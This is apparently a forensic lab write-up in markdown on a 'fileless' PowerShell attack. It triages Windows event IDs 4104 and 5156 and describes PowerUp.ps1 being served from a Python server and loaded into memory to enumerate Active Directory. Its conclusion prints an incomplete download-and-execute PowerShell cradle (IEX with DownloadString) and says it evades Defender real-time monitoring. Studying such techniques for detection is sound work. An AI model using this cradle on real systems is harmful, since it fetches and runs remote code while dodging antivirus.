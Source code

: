 # Fileless Enumeration

![Fileless Download](resources/FIleless.png)

## Table of content

  1. [SECURITY EVENTS TRIAGE](#security-events-triage)
  2. [VULNERABILITY DETECTION](#vulnerability-detection)  
  3. [CONSLUSIONS](#conclusions)


## SECURITY EVENTS TRIAGE
## Table of content 

  1.1 [ACTIVE DIRECTORY SIDE](#active-directory-side)
  
  1.2 [CLIENT01 SIDE](#client01-side)
  
  
### ACTIVE DIRECTORY SIDE
After security events triage, the most important evidences could be find on the following list :

```
EVTX:
4104 x 49

```
Powershell load the script [PowerUp.ps1] on dynamic process memory:

![fileless Load_powerup](resources/fileless_load_1.png)

![fileless Load_powerup](resources/fileless_load_1.png)

### CLIENT01 SIDE
After security events triage, the most important evidences could be find on the following list :

```
EVTX:
5156

```
Python server with the [PowerUp.ps1] script content on the source machine:

![Python Server](resources/python_server.png)

## VULNERABILITY DETECTION

This section not contains vulnerabilities, the threat user abusse the privileges of user [worker01] for enumerate the Active Directory and look for the attack vector: 

![fileless output](resources/Fileless_ActiveDirectory.png)

## CONCLUSIONS

The threat actor, load directly on memory the required ps1 scripts for enumeration and bypass the Windows Defender RealTime monitoring using the following command:

```
IEX (New-Object net.webclient).DownloadString
```
